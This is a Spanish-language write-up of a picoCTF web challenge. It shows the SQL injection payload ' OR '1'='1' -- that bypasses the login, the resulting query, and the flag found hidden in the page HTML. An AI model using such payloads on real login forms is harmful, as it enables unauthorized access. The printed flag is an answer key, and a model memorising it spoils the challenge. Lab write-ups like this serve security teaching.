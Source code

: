#Software #Hacking #WebExplotation #Web #Internet 
# Definición
Can you login to this website?Try to login [here](http://saturn.picoctf.net:51734/).
# Hints
- `admin` is the user you want to login as.
# Solución
Primero al entrar vemos un login, y como nos sugiere la pista intentamos ingresar como admin.

Pero esto falla.
```
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'

# Login failed.
```

Por lo que probamos usar [[Inyección SQL]], y logramos entrar:
```
username: admin
password: ' OR '1'='1' --
SQL query: SELECT * FROM users WHERE name='admin' AND password='' OR '1'='1' --'

# Logged in! But can you see the flag, it is in plainsight.
```

Pero no vemos la bandera, por lo que decidimos inspeccionar la página, y encontramos la bandera.
```html
|   |   |
|---|---|
||<pre>username: admin|
||password: &#039; OR &#039;1&#039;=&#039;1&#039; --|
||SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; AND password=&#039;&#039; OR &#039;1&#039;=&#039;1&#039; --&#039;|
||</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>|
```
## Respuesta
picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}